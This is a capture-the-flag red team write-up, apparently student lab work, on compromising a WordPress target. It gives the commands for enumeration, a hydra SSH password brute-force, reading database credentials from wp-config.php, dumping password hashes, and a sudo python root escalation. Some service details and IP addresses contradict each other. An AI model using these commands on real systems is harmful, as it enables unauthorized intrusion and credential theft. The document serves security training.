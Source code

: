 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0 running on the open port 22
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Upon inspection of the source code of service page flag1 was identified in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access password to MySQL database
    - **`cat /var/www/html/wordpress/wp-config.php`**

    - Loging on to the MySQL server
    - **`mysql -u root -p`**

    - Inspecting MySQL tables  for flags
    - **`show databases;`**
    - **`show tables`**
    - **`select * from wp_posts;`**

  - [Flag 4 Screen Shot](../images/flag4.png), Flag4.txt: **flag4{715dea6c055b9fe3337544932f2941ce}**
    - The hashes found in the MySQL table using **`select * from wp_users;`** are used to identify the password for Steven
    - Steven's account needed to be used as Michal's accound did not have write privilidges or for `sudo` privilidges to execute python code
    - **`ssh steven@192.168.1.10`** is used to connect to Target 1 via Steven's credentials

    - The code below is esclates to root privilidges and flag 4 was found inside the root directory
    - **`sudo python -c 'import pty;pty.spawn("/bin/bash");'`**

